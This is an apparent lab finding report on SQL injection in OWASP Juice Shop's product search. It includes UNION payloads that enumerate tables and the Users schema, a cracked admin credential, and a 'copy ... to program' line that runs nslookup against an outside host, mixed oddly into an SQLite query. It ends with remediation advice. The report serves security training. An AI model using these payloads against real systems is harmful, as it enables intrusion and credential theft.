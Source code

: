 **Category:** A03 – Injection

---
## Overview
During testing of the product search functionality in OWASP Juice Shop, a **SQL Injection vulnerability** was discovered.  
The application fails to properly sanitize user input before embedding it into SQL queries, allowing attackers to manipulate the query logic and extract sensitive data from the underlying SQLite database.

---
## Proof of Concept

### Vulnerable Query Construction
```sql
SELECT * FROM Products 
WHERE (
  (name LIKE '% %' 
   OR description LIKE '%'copy (SELECT '') to program 'nslookup http://0.0.0.0:8000/' %')
  AND deletedAt IS NULL
) 
ORDER BY name;
```
This payload modified the SQL logic, demonstrating injection.

### Database Enumeration (tables)
```sql
%')) UNION SELECT 1, '', '', 0, 0, '', '', '', name
FROM sqlite_master
WHERE type='table'
LIMIT 1 OFFSET 0 -- 
```

**Tables discovered:**
- Addresses  
- BasketItems  
- Baskets  
- Captchas  
- Cards  
- Challenges  
- Complaints  
- Deliveries  
- Feedbacks  
- ImageCaptchas  
- Memories  
- PrivacyRequests  
- Products  
- Quantities  
- Recycles  
- SecurityAnswers  
- SecurityQuestions  
- Users  
- Wallets  
- sqlite_sequence

### Users Table Schema (extracted)
```sql
%')) UNION SELECT 1, '', '', 0, 0, '', '', '', sql
FROM sqlite_master
WHERE tbl_name = 'Users' AND type = 'table'
LIMIT 1 OFFSET 0; -- 
```

**Schema fields identified:**
- `id` — INTEGER, primary key  
- `username` — VARCHAR(255)  
- `email` — VARCHAR(255), unique  
- `password` — VARCHAR(255)  
- `role` — VARCHAR(255)  
- `deluxeToken` — VARCHAR(255)  
- `lastLoginIp` — VARCHAR(255)  
- `profileImage` — VARCHAR(255)  
- `totpSecret` — VARCHAR(255)  
- `isActive` — TINYINT(1)  
- `createdAt` — DATETIME (NOT NULL)  
- `updatedAt` — DATETIME (NOT NULL)  
- `deletedAt` — DATETIME (NULL)

### Sensitive Data Disclosure (example response)
```json
{
  "id": 1,
  "name": "admin@juice-sh.op",
  "description": "0192023a7bbd73250516f069df18b500",
  "price": 0,
  "deluxePrice": 0
}
```

This hash is an MD5 Hash, and the unhashed password was found at https://crackstation.net/ 

![[Pasted image 20250810150612.png]]

**Recovered credential (hash cracked):**
```
admin@juice-sh.op : admin123
```

### SecurityAnswers Table (structure)
- `UserId` — INTEGER, UNIQUE, references `Users(id)`, ON DELETE NO ACTION, ON UPDATE CASCADE  
- `SecurityQuestionId` — INTEGER, references `SecurityQuestions(id)`, ON DELETE NO ACTION, ON UPDATE CASCADE  
- `id` — INTEGER, PRIMARY KEY, AUTOINCREMENT  
- `answer` — VARCHAR(255)  
- `createdAt` — DATETIME, NOT NULL  
- `updatedAt` — DATETIME, NOT NULL

---

## Impact
- **Authentication bypass:** Admin account compromised via recovered password.  
- **Data breach:** Disclosure of usernames, emails, and password hashes.  
- **Lateral movement:** Access to additional sensitive tables (e.g., security answers).  
- **Potential RCE:** Use of `copy ... to program`-style payloads indicates risk if backend/DB integrations are misconfigured.

**Severity:** Critical (CVSS high/critical range)

---

## Recommendations
1. **Use parameterized queries / prepared statements** everywhere user input touches SQL.  
2. **Input validation/allowlisting** for search parameters (reject control characters, quotes, SQL metacharacters).  
3. **Harden credential storage:** Replace MD5 with a Hashing algorithm and per-user salts.  
4. **Least-privilege DB account:** Restrict access to schema tables (`sqlite_master`) and unnecessary permissions.  
5. **Error handling:** Return generic errors; avoid leaking SQL/stack details.  
6. **Defense-in-depth:** Web Application Firewall (WAF) rules for common SQLi patterns; monitoring/alerting on anomalies.  
